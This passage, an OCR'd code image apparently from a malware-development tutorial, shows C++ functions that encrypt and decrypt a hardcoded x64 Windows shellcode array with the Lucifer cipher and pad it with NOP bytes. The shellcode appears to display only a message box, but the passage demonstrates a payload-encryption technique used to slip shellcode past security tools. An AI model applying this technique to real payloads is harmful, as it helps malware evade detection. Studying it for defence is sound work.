 ```cpp
  for (int i = 0; i < block_size / 2; ++i) {
    swap(&block[i], &block[i + block_size / 2]);
  }
}

// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }
}

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
    Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }
}

int main() {
  unsigned char key[16] = "meowmeowbowwoow"; // example 128-bit key
  unsigned char my_payload[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (block_size - my_payload_len % block_size) % 
  block_size;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs (0x90)
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");
```